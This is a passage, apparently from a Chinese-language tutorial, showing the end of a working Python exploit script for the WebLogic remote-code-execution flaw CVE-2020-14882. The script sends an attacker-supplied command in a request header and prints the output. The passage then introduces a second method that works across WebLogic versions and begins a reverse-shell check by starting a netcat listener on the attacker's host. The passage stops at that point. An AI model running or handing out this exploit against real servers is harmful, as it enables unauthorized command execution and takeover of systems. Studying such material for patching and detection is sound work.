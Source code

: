 ```
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)

```

##### 2.2 第二种方法（weblogic 版本通用）

com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

###### 反弹shell验证

在攻击者主机上启动NC监听端口
